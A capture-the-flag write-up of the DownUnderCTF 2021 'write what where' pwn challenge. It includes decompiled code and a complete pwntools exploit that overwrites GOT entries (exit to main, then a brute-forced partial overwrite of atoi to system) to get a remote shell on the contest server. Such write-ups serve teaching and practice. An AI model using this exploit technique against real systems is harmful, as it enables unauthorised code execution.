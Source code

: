 # DownUnderCTF 2021

## write what where

> 310
> 
> You've got one write. What do you do?
>
> Author: joseph#8210
>
> `nc pwn-2021.duc.tf 31920`
>
> [`write-what-where`](write-what-where) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86-64_ _write-what-where_ _remote-shell_ _got-overwrite_


## Summary

Brute force GOT overwrite using free _write-what-where_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO = GOT overwrite; No PIE = Easy ROP; No canary = Easy BOF.


### Decompile with Ghidra   

```c
void main(EVP_PKEY_CTX *param_1)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined4 local_2c;
  char local_28 [24];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("write");
  puts("what?");
  read(0,&local_2c,4);
  puts("where?");
  read(0,local_28,9);
  iVar1 = atoi(local_28);
  *(undefined4 *)(long)iVar1 = local_2c;
  exit(0);
}
```

So, yeah, _write-what-where_.  You can write any 4 bytes just about anywhere you want (that is `rw` memory).

There may be better ways to solve this, less crude ways, but I immediately considered a simple brute force solution (done it before).

First we need multiple _write-what-where_ exploits.  The first is obvious, change `exit` in the GOT to be `main`.

The next _w-w-w_ will change `atoi` to `system`, however because of ASLR there's only a 1 in 16 chance it will work _and_ `atoi` and `system` have to be within the same `0x10000` bytes.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./write-what-where')

context.log_level = 'WARN'

attempt = 0
while True:
    try:
        if args.REMOTE:
            p = remote('pwn-2021.duc.tf', 31920)
            libc = ELF('./libc.so.6')
            tout = 1.0
        else:
            p = process(binary.path)
            libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
            tout = 0.5

        assert(libc.sym.system - libc.sym.atoi + (libc.sym.atoi & 0xfff) < 0x10000), '\nthis libc will not work\n'
        
        attempt += 1
        log.warn('attempt: ' + str(attempt))

        p.sendafter(b'what?\n',p32(binary.sym.main))
        p.sendafter(b'where?\n',str(binary.got.exit).encode())

        p.sendafter(b'what?\n',p32(((libc.sym.system | 0xf000) & 0xffff) << 16))
        p.sendafter(b'where?\n',str(binary.got.atoi - 2).encode())

        p.sendafter(b'what?\n',b'0000',timeout=tout)
        p.sendafter(b'where?\n',b'/bin/sh\0',timeout=tout)

        p.sendline(b'echo shell')
        if b'shell' in p.recvline(timeout=tout):
            p.interactive()
            break
    except AssertionError as err:
        print(err)
        sys.exit(1)
    except:
        try:
            p.close()
        except:
            continue
```

This is brute force, so we'll need a loop.

The `assert` checks if the `libc` is even an option.  Otherwise we need to find a different approach.

Next we'll change `exit` to `main`.

On our second pass we'll replace the last 4 nibbles of `atoi` with `system` starting with `0xf`.

> We only need to overwrite 2 bytes (4 nibbles) so the actually write is 2 less than the address of the `atoi` GOT entry.

On the last pass, the `what` no longer matters, just the `where`; if the `atoi` conversion to `system` worked our input of `/bin/sh` for `where` will give us a shell.

Crash?  We'll leverage ASLR and try again.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/write-what-where/write-what-where'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[!] attempt: 1
[!] attempt: 2
[!] attempt: 3
[!] attempt: 4
[!] attempt: 5
[!] attempt: 6
$ cat flag.txt
DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}
```

> My shortest number of attempts was 5, longest was 29.